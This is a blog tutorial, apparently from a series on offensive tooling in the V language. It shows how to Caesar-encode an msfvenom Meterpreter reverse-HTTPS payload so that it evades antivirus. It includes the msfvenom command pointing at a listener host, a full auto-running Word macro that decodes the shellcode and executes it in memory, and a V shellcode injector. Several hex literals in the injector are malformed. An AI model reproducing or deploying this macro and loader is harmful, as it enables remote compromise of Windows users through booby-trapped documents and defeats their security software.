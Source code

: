 ```yaml
---
layout: single
title:  "OffensiVe Security with V 4 - Caesar"
date:   2022-08-09 16:55:50 -0500
categories: app-development
tags: vlang windows
permalink: /:categories/:title/

header:
  overlay_image: /images/cloudflare1/banner.png
  overlay_filter: rgba(0, 0, 0, 0.7)
  actions:
     - label: "View Code"
       url: "https://github.com/alexfrancow/offensive-vlang"  
---
```


In the previous part of this series of posts, the [XOR Cipher](https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-3-XOR/) was detailed, in this part another **cipher technique** with **Caesar encryption** will be investigated in order to mitigate **AV defenses**.

## Caesar Cipher

The **Caesar cipher** was one of the earliest encryption schemes and is very simple. It is categorized as a **substitution cipher** since it substitutes a letter or number by shifting it to the right by the number specified in the key.

```text
Input Output
C -> D
a -> b
e -> f
s -> t
a -> b
r -> s
```

For this, the following code will be used, which shows the encryption method in the **V** language.
First, we'll need to generate a payload, to do so we'll use the following snippet from `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.86 LPORT=443 -f csharp
```

Once the payload was generated the output will be similar at the following.

```bash
byte[] buf = new byte[547] {
    0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,
    ..snip..
    0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
```

It will be necessary to convert the **csharp** output to **V**, for this we copy each byte *(547)* in the same way and we will group it by square brackets. To get something similar to the following code block.

```bash
buf := [
    byte(0xfc),0xe8,0x8f,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,
    ..snip..
    0x38,0x36,0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 ]
```

The next step will be to implement the **Caesar encryption** algorithm. To do this, iterates over all the characters of the **payload**, exchanging them with a **sum** of **+2** (It could be a sum of any number).
To implement that, the following code was created.
```c
fn main() {
    // Caesar cipher
    mut encoded := buf.clone()
    for i := 0; i < buf.len; i++ {
        encoded[i] = buf[i] + 2 & 0xFF
    }
```

>  We performed a bitwise **AND** *(&)* operation with `0xFF` to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds `0xFF`.

Once we have each byte replaced, it is converted to VBA code. To do this, add the string `buf = Array(` at the beginning, a `)` at the end and add a `, _` every 30 iterations. This is necessary so that office can read the payload.
The following code shows the theory.
```c
    // To VBA
    mut v := ''
    for i := 0; i < encoded.len; i++ {
        if i == 0 {
            v += 'buf = Array(${encoded[i]}, '
        }
        else if i  == encoded.len - 1 {
            v += '${encoded[i]})'
        }
        else {
            if i % 30 == 0 {
	              v += '${encoded[i]}, _ \n'
	      }
            else {
                v += '${encoded[i]}, '
            }
        }
    }

    println(v)
}
```

It is also possible to convert it to **Hexadecimal**.
```c
    // To Hex
    mut h := ''
    for i := 0; i < encoded.len; i++ {
        h += '0x${int(encoded[i]):x}, '
    }
```

Or to a **String**.
```c
    // To string
    mut s := ''
    for i := 0; i < encoded.len; i++ {
        s += encoded[i].ascii_str()
    }
```

The output of the code will be the payload in **VBA** format, which we can import into an **Office macro** as shown in the following example.
Here it is necessary to subtract the number of substitutions that we have made when encrypting the payload with **Caesar** *(-2)*.
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Sub MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    buf = Array(254, 234, 145, 2, 2, 2, 98, 51, 212, 139, 231, 102, 141, 84, 50, 141, 84, 14, 141, 84, 22, 141, 116, 42, 17, 185, 76, 40, 51, 1, 51, _
    ..snip..
    231, 90, 197, 97, 234, 109, 1, 1, 1, 51, 59, 52, 48, 51, 56, 58, 48, 54, 59, 48, 58, 56, 2, 189, 242, 183, 164, 88, 108, 2, _
    85, 1, 215)

    ' Caesar decipher
    For i = 0 To UBound(buf)
        buf(i) = buf(i) - 2
    Next i
    
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Instead of using an **Office macro**, it is possible to inject a **Hexadecimal shellcode** directly with **V**.

```c
module main
import time

#flag -luser32
#flag -lkernel32

fn C.VirtualAlloc(voidptr, u32, u32, u32) voidptr
fn C.RtlMoveMemory(voidptr, voidptr, u32)
fn C.CreateThread(voidptr, u32, voidptr, voidptr, u32, &u32) voidptr

fn inject(shellcode []byte) bool {
    println('Creating virtualAlloc')
    address_pointer := C.VirtualAlloc(voidptr(0), usize(sizeof(shellcode)), 0x3000, 0x40)

    println('WriteProcessMemory')
    C.RtlMoveMemory(address_pointer, shellcode.data, shellcode.len)

    println('CreateRemoteThread')
    C.CreateThread(voidptr(0), u32(0), voidptr(address_pointer), voidptr(0), 0, &u32(0))
    time.sleep(1 * time.second)
    return true
}

fn main() {
    buf := [
    byte(0xfe), 0xea, 0x971,33, 0x32, 0x30x, 0x6d, 0x79, 0x65, 0xa1, 0xc8, 0x6c, 
    ..snip..
    0x21, 0x50x2, 0x6a, 0x2,]

    // Caesar decipher
    mut shellcode := buf.clone()
    for i := 0; i < buf.len; i++ {
        shellcode[i] = buf[i] - 2
    }
    inject(shellcode)
}
```

It is possible to **build** the above code with:

```bash
v caesar.v
```

### Demo

<iframe width="560" height="315" src="https://www.youtube.com/embed/D6csaUgbVxw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
